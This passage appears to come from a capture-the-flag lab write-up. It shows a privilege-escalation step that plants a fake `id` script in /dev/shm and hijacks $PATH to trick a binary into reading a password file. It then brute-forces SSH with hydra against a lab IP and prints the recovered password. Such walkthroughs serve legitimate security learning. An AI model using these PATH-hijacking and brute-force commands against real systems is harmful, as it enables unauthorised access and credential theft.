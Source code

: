 ```ad-summary
- It executes the `id` command to extract the current user and then tries to access a `.passwords` file in that user’s home directory.

2. `.passwords` File:

- Located at `/home/think/.passwords`.
- Permissions: Only accessible by `root` and the `think` user.
- Goal: We need to trick the binary into reading `.passwords`

So, in order to exploit that, we need to reproduce the following steps:


1. Modify the `$PATH` Variable:

- First, use the `id` command to generate an output and replace the username with username `think` , we can use `echo` command to replicate this:

`echo "uid=33(think) gid=33(think) groups=33(think)"`

- Create a malicious `id` binary in a directory you control (e.g., `/dev/shm`)

$ `c ` 
$ `echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /dev/shm/id` # echoe's a uid in the context of user "think"  
$ `chmod +x /dev/shm/id`

- Adjust `$PATH` to include this directory `/dev/shm` at the beginning so that the OS will be tricked that the binary `id` is coming from `/dev/shm` :

`export PATH=/dev/shm:$PATH`
`echo $PATH`

Now that `/dev/shm` is in the **PATH** variable, we can now execute the binary:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202150957.png)

We can use these passwords to bruteforce `think` ssh:

`hydra -l think -P passwords.txt 10.10.14.183 ssh`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202151102.png)

We got the password!

`think`:`josemario.AKA(think)`
```

Now, let's log in to ssh as think:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202151159.png)
